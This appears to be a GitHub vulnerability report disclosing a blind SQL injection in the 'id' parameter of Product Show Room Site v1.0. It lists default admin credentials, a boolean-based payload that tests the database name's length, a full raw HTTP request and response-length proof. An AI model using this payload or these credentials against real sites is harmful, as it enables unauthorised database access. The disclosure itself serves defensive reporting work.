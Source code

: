 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=products/view_product&id=

Vulnerability location: /psrs/admin/?page=products/view_product&id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/?page=products/view_product&id=3%27%20and%20length(database())%20=7--+// Leak place ---> id

```sql
GET /psrs/admin/?page=products/view_product&id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 31202
![image](https://user-images.githubusercontent.com/54017627/171828240-2fa67c8c-f37c-43a0-97ac-5450fafcc3dc.png)

![image](https://user-images.githubusercontent.com/54017627/171828320-76d7bc96-23b2-4589-a49c-a394acfa389f.png)

When length (database ()) = 7, Content-Length: 33019
![image](https://user-images.githubusercontent.com/54017627/171828201-70cf00a3-811f-40b2-93ab-41e61215e51c.png)

![image](https://user-images.githubusercontent.com/54017627/171828273-60648973-5071-44da-82a9-c590b3712426.png)
